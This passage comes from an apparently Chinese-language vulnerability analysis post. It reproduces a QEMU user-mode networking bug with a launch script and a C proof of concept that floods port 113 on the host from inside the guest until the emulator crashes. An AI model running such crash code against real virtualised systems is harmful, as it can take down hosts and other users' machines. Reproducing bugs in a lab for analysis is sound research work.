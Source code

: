 接下来就是编译内核与文件系统，可以参考上一篇的`cve-2015-5165`漏洞分析的文章。

因为漏洞需要在user模式下启动虚拟机，因此使用以下的命令启动qemu虚拟机：

```
$ cat launch.sh
#!/bin/sh
./qemu-system-x86_64 
    -kernel ./bzImage  
    -append "console=ttyS0 root=/dev/sda rw"  
    -hda ./rootfs.img  
    -enable-kvm -m 2G -nographic 
    -L ./pc-bios -smp 1 
    -net user,hostfwd=tcp::2222-:22 -net nic
```

漏洞需要在user模式下启动虚拟机，启动虚拟机后虚拟机的ip为`10.0.2.15`，宿主机ip为`10.0.2.2`。虽然在主机中`ifconfig`看不到该ip，但确实是可以连通的。可以从qemu虚拟机中ping主机，无法从主机ping虚拟机。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01621d4164cdec4566.png)

poc代码如下，将其编译好并拷贝至虚拟机中：

```
#include &lt;stdio.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;netdb.h&gt;
#include &lt;arpa/inet.h&gt;
#include &lt;sys/socket.h&gt;

int main() `{`
    int s, ret;
    struct sockaddr_in ip_addr;
    char buf[0x500];

    s = socket(AF_INET, SOCK_STREAM, 0);
    ip_addr.sin_family = AF_INET;
    ip_addr.sin_addr.s_addr = inet_addr("10.0.2.2"); // host IP
    ip_addr.sin_port = htons(113);                   // vulnerable port
    ret = connect(s, (struct sockaddr *)&amp;ip_addr, sizeof(struct sockaddr_in));
    memset(buf, 'A', 0x500);
    while (1) `{`
        write(s, buf, 0x500);
    `}`
    return 0;
`}`
```

然后在宿主机中`sudo nc -lvnp 113`端口，在虚拟机中运行poc，即可看到qemu虚拟机崩溃，成功复现漏洞。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01cbe61fb011c19747.png)
